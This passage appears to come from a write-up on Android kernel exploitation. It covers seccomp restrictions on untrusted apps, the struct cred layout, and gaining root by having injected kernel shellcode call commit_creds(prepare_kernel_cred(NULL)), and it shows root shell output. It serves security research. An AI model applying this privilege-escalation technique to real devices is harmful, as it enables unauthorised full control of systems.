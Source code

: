 Additionally, although not directly related to privilege escalation, Android applies certain **seccomp rules** to untrusted applications, which means some syscalls are not allowed.

``` bash
aaa@aaa:~$ adb shell cat /proc/2525/status | grep Seccomp
Seccomp:                2
Seccomp_filters:        1
```

You can find the actual restricted syscalls in the [bionic source code](https://android.googlesource.com/platform/bionic/+/refs/heads/main/libc/). The final seccomp allowlist is derived as: `SYSCALLS.TXT` - `SECCOMP_BLOCKLIST.TXT` + `SECCOMP_ALLOWLIST.TXT`.

#### 3.6.4. Bypass Them and Get Root

The capabilities are stored in `struct cred`, along with the UID and GID. Therefore, injecting shellcode that calls **`commit_creds(prepare_kernel_cred(NULL))`** to reuse the cred of `&init_task` is sufficient.

``` c
struct cred {
    // [...]
    kuid_t uid;        /* real UID of the task */
    kgid_t gid;        /* real GID of the task */
    // [...]
    kernel_cap_t cap_inheritable;  /* caps our children can inherit */
    kernel_cap_t cap_permitted;    /* caps we're permitted */
    kernel_cap_t cap_effective;    /* caps we can actually use */
    kernel_cap_t cap_bset;         /* capability bounding set */
    kernel_cap_t cap_ambient;      /* Ambient capability set */
    // [...]
}
```

After this, we gain **full root privileges**:

```
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
```

At this point, the entire `/proc` can be listed:

```
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
:/ # ls -al /proc/
total 4
dr-xr-xr-x 477 root           root               0 2025-09-08 07:48 .
drwxr-xr-x  27 root           root             683 2009-01-01 00:00 ..
dr-xr-xr-x   9 root           root               0 2025-09-08 07:48 1
dr-xr-xr-x   9 root           root               0 2025-09-08 07:48 100
dr-xr-xr-x   9 root           root               0 2025-09-08 07:48 101
dr-xr-xr-x   9 root           root               0 2025-09-08 07:48 102
[...]
```

